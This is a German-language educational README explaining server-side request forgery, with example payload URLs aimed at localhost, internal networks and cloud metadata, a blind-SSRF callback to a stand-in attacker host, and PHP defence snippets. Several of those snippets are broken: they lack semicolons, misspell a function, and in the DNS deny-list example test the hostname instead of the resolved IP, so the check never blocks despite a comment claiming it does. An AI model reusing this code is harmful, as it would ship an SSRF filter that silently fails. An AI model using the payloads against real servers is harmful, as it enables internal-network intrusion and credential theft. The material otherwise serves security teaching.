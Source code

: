 # 🛡️ Server-Side Request Forgery (SSRF)

## Inhaltsverzeichnis
- [Definition](#definition)
- [Typische Angriffsziele](#typische-angriffsziele)
- [Arten von SSRF](#arten-von-ssrf)
    - [Klassischer SSRF](#klassischer-ssrf)
    - [Blind SSRF](#blind-ssrf)
    - [Semi-Blind SSRF](#semi-blind-ssrf)
- [Typische Funktionen, die SSRF ermöglichen](#typische-funktionen-die-ssrf-ermöglichen)
- [Gefahren & Auswirkungen](#gefahren--auswirkungen)
- [Schutzmaßnahmen](#schutzmaßnahmen)
- [Beispiel: Blockierung privater Netze (PHP)](#beispiel-blockierung-privater-netze-php)
- [PHP-Code Beispiele](#php-code-beispiele)
    - [Blockierung privater Netze](#blockierung-privater-netze)
    - [Beispiel Allow List](#beispiel-allow-list)
    - [Beispiel Deny List](#beispiel-deny-list)
    - [Beispiel IP-Deny-List via DNS](#beispiel-ip-deny-list-via-dns)
- [Tools & Testing](#tools--testing)
- [Weitere Links](#weitere-links)



## Definition

`SSRF` steht für **Server-Side Request Forgery** (auf Deutsch: ***Serverseitige Anfragenfälschung***).
Dabei wird ein Server dazu gebracht, unerwünschte oder manipulierte Requests an interne oder externe Systeme zu senden.

**Das Besondere:** Die Anfrage kommt vom Server selbst (nicht vom Client/Angreifer-PC). Dadurch kann ein Angreifer auf Ressourcen zugreifen, die er normalerweise nicht erreichen dürfte – z. B. interne Netzwerke, Cloud-Metadaten oder lokale Dienste.

**Beispiel im Alltag:** Viele Web-Apps erzeugen Vorschaubilder für URLs (z. B. Messenger, Blogs). Der Server lädt dazu die Inhalte der URL herunter. Wird diese Funktion missbraucht, kann der Angreifer beliebige Ziele abrufen lassen.



## Funktionsweise eines SSRF-Angriffs

1. Anwendung ermöglicht Benutzereinbagen, um Ziel-URL oder Ressource für serverseitige Anfrage zu bestimmen. Eingabe kann von URL-Parameter, Formularfelder oder anderen Quellen stammen.
2. Angreifer übermittelt spezielle Anfrage und manipuliert die Eingabe so, dass es auf eine Ressource (interner Server, Backend-Dienst, API usw.) verweist, die hinter Firewalls sind.
3. Server verarbeitet die schadhafte Eingabe des Users und erstellt eine Anfrage an die Ziel-URL.
4. Bei erfolgreicher Verarbeitung stehen dem Angreifen nun die Funktionen und Daten des Serers zur Verfügung.



## Typische Angriffsziele

- **Interne Netze** (z. B. http://192.168.1.1/, http://10.0.0.5/)
- **Cloud-Metadaten-APIs** (z. B. AWS: http://169.254.169.254/latest/meta-data/)
- **Lokale Dienste** (http://localhost:22/, http://127.0.0.1:3306/)
- **Admin-Panels**, die nur intern erreichbar sind
- **SSRF to RCE:** Manche Dienste akzeptieren SSRF-Requests und führen z. B. Befehle aus



<div align="right">

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Arten von SSRF

### 1. Klassischer SSRF

- Der Angreifer kontrolliert eine komplette URL und kann beliebige Ziele ansprechen.
- Beispiel:
```http
http://example.com/fetch?url=http://127.0.0.1/admin
```

### 2. Blind SSRF
- Der Angreifer sieht die Antwort nicht direkt.
- Er kann jedoch Nebenwirkungen erzeugen, z. B. DNS-Requests oder Zeitverzögerungen.
- Beispiel: Zugriff auf einen eigenen Server:
```http
http://example.com/fetch?url=http://attacker.com/callback
```

### 3. Semi-Blind SSRF
- Teilweise sichtbare Informationen (z. B. HTTP-Statuscode oder Fehlerausgabe), aber nicht der gesamte Response.



## Typische Funktionen, die SSRF ermöglichen
Viele Programmiersprachen und Frameworks akzeptieren URLs als Eingabeparameter:

```php
file_get_contents($url);   // kann http://, ftp://, php:// usw. öffnen
get_headers($url);         // macht GET requests
getimagesize($url);        // lädt entfernte Bilder
fopen($url, "r");          // öffnet auch Remote-Dateien
curl_exec($ch);            // klassische HTTP-Anfragen
```



## Gefahren & Auswirkungen

- Zugriff auf interne Admin-Interfaces
- Port-Scanning interner Netze (über Antwortzeiten)
- Zugriff auf Cloud-Metadaten (→ AWS Keys, Azure Tokens, GCP Service Accounts)
- Umgehung von Firewalls & Zugriffskontrollen
- Eskalation zu Remote Code Execution (RCE) in Kombination mit schwachen Services




## Schutzmaßnahmen
- **Allow-List** statt Deny-List: Nur explizit erlaubte Hosts zulassen.
- **Host/IP-Validierung** mit festen Parsern (keine eigenen Regex-Basteleien).
- **Private IP-Ranges blockieren** (`127.0.0.0/8`, `10.0.0.0/8`, `192.168.0.0/16`, `172.16.0.0/12`, `169.254.0.0/16`).
- **DNS-Rebinding verhindern** (mehrfach DNS-Auflösung und Validierung).
- **Timeouts & Limits** setzen (um Portscans zu erschweren).
- **Nur nötige Protokolle** erlauben (kein `file://`, `ftp://`, `gopher://` usw.).
- **Web Application Firewalls** (WAFs) oder Bibliotheken wie `SafeCurl`, `NoPrivateNetworkHttpClient` einsetzen.



<div align="right">

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## PHP-Code Beispiele: 
### Blockierung privater Netze

```php
function isPrivateIP($ip) {
    return filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE) === false;
}

$input = "http://127.0.0.1/admin";
$host = parse_url($input, PHP_URL_HOST);
$ip = gethostbyname($host);

if (isPrivateIP($ip)) {
    die("Access denied: Private IPs are not allowed!");
}
```

### Beispiel Allow List
```php
$input = "https://blog.example.com/link/page.html"
$host = parse_url($input, PHP_URL_HOST)
// Value wäre "blog.example.com"
$allowedHosts = ["example.com", "blog.example.com"]
$isAllowed = in_array($host, $allowedHosts)
// Value ist true
if ($isAllowed) {file_get_contets($input);}
```

### Beispiel Deny-List
```php
$input = "https://localhoast/attack.html"
$host = parse_url($input, PHP_URL_HOST)
// Value = "localhost"
$deniedHosts = ["localhost", "badSite.com"]
$isDenied = in_array($host, $deniedHosts)
if (!$isDenied) {file_get_contents($input);}
```

### Beispiel IP-Deny-List via DNS
```php
$input = "https://webseite.com/attack.html"
$host = parse_url($input, PHP_URL_HOST)
// Value = "webseite.com"
$ip = gethostbyname($host)
//       = "127.0.0.1"
$deniedIps = ["127.0.0.1"]
$isDenied = in_array($host, $deniedIps)
//       = true
if (!$isDenied) {file_get_contents($input);}
```


## Tools & Testing

- [Burp Suite](https://portswigger.net/burp?utm_source=chatgpt.com)
- [SSRF-Testing](https://github.com/cujanovic/SSRF-Testing)
- [wfuzz](https://github.com/xmendez/wfuzz)
- [NoPrivateNetworkHttpClient](https://github.com/symfony/symfony/blob/67016b9d13d0aa164bcca122c978b2c1e1098dd6/src/Symfony/Component/HttpClient/NoPrivateNetworkHttpClient.php)
- [SafeCurl](https://github.com/vanilla/safecurl)
- Eigener DNS-Logger (z. B. dnslog.cn, interactsh) für Blind-SSRF



## Weitere Links
- [Media.ccc.de - SSRF](https://media.ccc.de/v/dgwk2024-56206-einfuhrung-in-ssrf-moglic#t=1431) (Video)
- [F5 - Was ist SSRF?](https://www.f5.com/de_de/glossary/ssrf)




## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---

